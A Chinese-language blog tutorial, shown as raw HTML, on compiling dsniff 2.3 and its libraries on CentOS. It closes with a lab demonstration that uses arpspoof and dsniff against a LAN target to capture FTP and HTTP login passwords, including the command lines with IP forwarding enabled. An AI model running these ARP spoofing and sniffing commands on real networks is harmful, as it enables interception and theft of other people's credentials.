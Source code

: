 <span style="color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">先来下载依赖包 和一些必须要用到的工具</span>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	我这里用的是 dsniff-2.3 的版本
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	wget http://www.monkey.org/~dugsong/dsniff/dsniff-2.3.tar.gz<br style="margin:0px;padding:0px;" />
wget http://www.8090sec.com/uploads/soft/dsniff-2.3.tar.gz 备用下载
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">一、安装gcc</strong></span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	# yum -y install gcc
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">二、安装 openssl 直接yum安装也可以的</strong></span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	# tar zxvf openssl-0.9.7i.tar.gz<br style="margin:0px;padding:0px;" />
# cd openssl-0.9.7i<br style="margin:0px;padding:0px;" />
# ./config<br style="margin:0px;padding:0px;" />
# make<br style="margin:0px;padding:0px;" />
# make install
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">三、安装flex 和 bison</strong></span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	# yum -y install flex<br style="margin:0px;padding:0px;" />
# yum -y install bison
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">四、安装 libpcap 直接yum安装也可以</strong><br style="margin:0px;padding:0px;" />
&nbsp;<br style="margin:0px;padding:0px;" />
#wget http://www.tcpdump.org/release/libpcap-0.7.2.tar.gz<br style="margin:0px;padding:0px;" />
# tar zxvf libpcap-0.7.2.tar.gz<br style="margin:0px;padding:0px;" />
# cd libpcap-0.7.2<br style="margin:0px;padding:0px;" />
# ./configure<br style="margin:0px;padding:0px;" />
# make<br style="margin:0px;padding:0px;" />
# make install<br style="margin:0px;padding:0px;" />
# wget http://www.8090sec.com/uploads/soft/libpcap-0.7.2.tar.gz 备用下载</span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	&nbsp;
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">五、安装 libnet</strong><br style="margin:0px;padding:0px;" />
# wget http://ips-builder.googlecode.com/files/libnet-1.0.2a.tar.gz<br style="margin:0px;padding:0px;" />
# tar zxvf libnet-1.0.2a.tar.gz<br style="margin:0px;padding:0px;" />
# cd Libnet-1.0.2a<br style="margin:0px;padding:0px;" />
# ./configure<br style="margin:0px;padding:0px;" />
# make<br style="margin:0px;padding:0px;" />
# make install<br style="margin:0px;padding:0px;" />
# wget http://www.8090sec.com/uploads/soft/libnet-1.0.2a.tar.gz 备用下载</span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">六、安装 libnids</strong><br style="margin:0px;padding:0px;" />
# wget http://distro.ibiblio.org/openwall/projects/scanlogd/lib/libnids-1.18.tar.gz<br style="margin:0px;padding:0px;" />
# tar zxvf libnids-1.18.tar.gz<br style="margin:0px;padding:0px;" />
# cd libnids-1.18<br style="margin:0px;padding:0px;" />
# ./configure<br style="margin:0px;padding:0px;" />
# make<br style="margin:0px;padding:0px;" />
# make install<br style="margin:0px;padding:0px;" />
# wget http://www.8090sec.com/uploads/soft/libnids-1.18.tar.gz 备用下载</span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">七、安装BerkeleyDB</strong><br style="margin:0px;padding:0px;" />
# wget http://download.oracle.com/berkeley-db/db-4.7.25.tar.gz<br style="margin:0px;padding:0px;" />
# tar zxvf db-4.7.25.tar.gz<br style="margin:0px;padding:0px;" />
# cd db-4.7.25/build_unix<br style="margin:0px;padding:0px;" />
# ../dist/configure --enable-compat185<br style="margin:0px;padding:0px;" />
# make<br style="margin:0px;padding:0px;" />
# make install</span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">八、安装dsniff</strong></span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	# tar zxvf dsniff-2.3.tar.gz<br style="margin:0px;padding:0px;" />
# cd dsniff-2.3<br style="margin:0px;padding:0px;" />
# vi arp.c 加入 #include "memory.h"<br style="margin:0px;padding:0px;" />
# ./configure --enable-compat185 --with-db=/usr/local/BerkeleyDB.4.7<br style="margin:0px;padding:0px;" />
# make<br style="margin:0px;padding:0px;" />
# make install
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">九、其它设置</strong></span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	# vi /etc/sysctl.conf
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	修改 net.ipv4.ip_forward = 1
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	# sysctl -p
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<span style="margin:0px;padding:0px;color:#FF0000;"><span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">十、使用dsniff</strong></span></span>
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	# cp /usr/local/BerkeleyDB.4.7/lib/libdb-4.7.so /usr/lib<br style="margin:0px;padding:0px;" />
# cd /usr/local/sbin;ls<br style="margin:0px;padding:0px;" />
# ./dsniff --help
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	环境：
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	网关--&gt; 192.168.1.1
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	路人甲 --&gt; 192.168.1.123 (CentOS6.0 + dsniff-2.3)
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	路人乙 --&gt; 192.168.1.125(Cent0S6.0 + Apache + Mysql)
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
目的：
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	使用 路人甲 嗅探 路人乙 的FTP、http 登录密码
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
1. 使用 arpspoof 对目标机实施ARP欺骗攻击<br style="margin:0px;padding:0px;" />
# arpspoof -i eth0 -t 192.168.1.125 192.168.1.1
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	2. 使用 dsniff 取得指定端口的数据信息&nbsp;<br style="margin:0px;padding:0px;" />
# dsniff -i eth0 -t 21/tcp=ftp,80/tcp=http
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	&nbsp;<br style="margin:0px;padding:0px;" />
&nbsp;
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	Dsniff支持的协议类型包括：&nbsp;&nbsp;<br style="margin:0px;padding:0px;" />
FTP，Telnet，SMTP，HTTP，POP，NNTP，IMAP，SNMP，LDAP，Rlogin，RIP，OSP&nbsp;&nbsp;<br style="margin:0px;padding:0px;" />
F，PPTP，MS-CHAP，NFS，VRRP，YP/NIS，SOCKS，X11，CVS，IRC，AIM，ICQ，Napster，ostgreSQL，Meeting Maker，Citrix ICA，Symantec，pcAnywhere，NA&nbsp;&nbsp;<br style="margin:0px;padding:0px;" />
I Sniffer，Microsoft SMB，Oracle QL*Net，Sybase及Microsoft SQL认证信息
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	&nbsp;
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<br style="margin:0px;padding:0px;" />
编译遇到的问题可能有:<br style="margin:0px;padding:0px;" />
http://distro.ibiblio.org/openwall/projects/scanlogd/lib/<br style="margin:0px;padding:0px;" />
3个环境配子的文件 libnet libpcap libnids 注意安装编译的顺序,不然会无法成功 如果遇到编译错误无法解决更换版本多试试看.不一定要以上几个版本才行
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	另外推荐大家适应另外一个Linux下的嗅探工具&nbsp;ettercap NG 后期我会给大家更新
</p>
<p style="margin:10px auto;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<span style="margin:0px;padding:0px;font-family:黑体;"><strong style="margin:0px;padding:0px;">ettercap嗅探工具</strong></span>
</p>
<div style="margin:0px;padding:0px;color:#333333;font-family:Verdana, Arial, Helvetica, sans-serif;font-size:14px;white-space:normal;background-color:#FFFFFF;">
	<iframe id="iframe_0.41943203142494045" src="data:text/html;charset=utf8,%3Cstyle%3Ebody%7Bmargin:0;padding:0%7D%3C/style%3E%3Cimg%20id=%22img%22%20src=%22http://www.2cto.com/uploadfile/2014/0628/20140628114850270.jpg?_=5889659%22%20style=%22border:none;max-width:848px%22%3E%3Cscript%3Ewindow.onload%20=%20function%20()%20%7Bvar%20img%20=%20document.getElementById('img');%20window.parent.postMessage(%7BiframeId:'iframe_0.41943203142494045',width:img.width,height:img.height%7D,%20'http://www.cnblogs.com');%7D%3C/script%3E" frameborder="0" scrolling="no" style="margin:0px;padding:0px;border-width:initial;border-style:none;width:578px;height:461px;">
	</iframe>
</div>
